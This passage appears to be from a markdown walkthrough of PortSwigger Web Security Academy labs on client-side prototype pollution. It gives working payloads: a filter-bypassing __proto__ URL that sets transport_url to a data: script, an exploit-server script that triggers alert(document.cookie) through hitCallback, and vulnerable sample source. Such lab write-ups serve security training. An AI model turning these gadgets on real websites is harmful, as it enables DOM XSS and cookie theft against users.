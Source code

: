     ```
5. As transport_url is not configured we could inject the following payload.

    ```
    https://0a5700f703981e3e80b73f67006c00bb.web-security-academy.net/?__pro__proto__to__[transport_url]=data:,alert(1)
    ```
6. It worked.


## Lab: Client-side prototype pollution in third-party libraries
1. Enable dom invader and prototype pollution 
2. Now It will find a sink 
3. Click on scan for gadgets
4. Next It will find a exploit once it's clicked it will trigger xss payload.
5. Store the following code on the Exploit server 
    ```
    <script>
    location="https://YOURWEBCECURITYACADEMYCODE.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29"
    </script>
    ```
6. Save and Deliver to the victim and the payload will be executed.


## Lab: Client-side prototype pollution via browser APIs

1. Inject the following payload
    ```
    https://0ac60080032b4d5480db0ddd00a8007f.web-security-academy.net/?__proto__[foo]=bar
    ```

2. Check on Browser Console
    ```
    > foo
    bar 
    ```
3. Now check the source code
    ```
    async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
    Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
        if(config.transport_url) {
            let script = document.createElement('script');
            script.src = config.transport_url;
            document.body.appendChild(script);
        }
        if(config.params && config.params.search) {
            await logQuery('/logger', config.params);
        }
    }
    ```
